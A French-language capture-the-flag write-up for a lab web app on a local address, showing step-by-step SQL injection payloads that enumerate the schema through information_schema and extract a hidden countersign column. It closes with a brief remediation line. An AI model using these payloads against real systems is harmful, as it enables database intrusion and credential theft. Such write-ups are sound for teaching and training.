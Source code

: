 sur http://192.168.99.102/?page=member

On peu voir un field pour rechercher par Id.

Si on entre 1 OR 1 = 1:
First name: Flag
Surname : GetThe

On peux voir qu'un first name est "Flag"

Avec la requete suivante: 1 AND MID(VERSION(),1,1) = 5;
On obtiens la version de mysql... pas utile 


Avec la requete suivante: 1 UNION SELECT * FROM Users
on obtiens une erreur: Table 'Member_Sql_Injection.Users' doesn't exist
on en deduis le nom de la db: Member_Sql_Injection



1 UNION SELECT * FROM Users
1 AND 1=2 UNION ALL SELECT * FROM information_schema.columns

Nous avons une erreur:
The used SELECT statements have a different number of columns

parce que "select * from ..." est la sélection de toutes les colonnes du tableau des users.
c'est pourquoi lorsque nous avons essayé d'unir plus de 2 colonnes avec elle, nous avons cette erreur.

En essayant de select que deux colonnes avec cette commande:
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns

Nous affiche toutes les tables et colonnes
On peux voir la table qui nous interesse ici c'est: Users
qui contient les colonnes suivantes:
user_id
first_name
last_name
town
country
planet
Commentaire
countersign

testons alors les deux dernieres qui ont l'air suspectes.... :

1 AND 1 = 2 UNION ALL SELECT countersign, Commentaire FROM users

bingo !


Amelioration:

Gerer les sqli, protegers les strings envoyer en request.

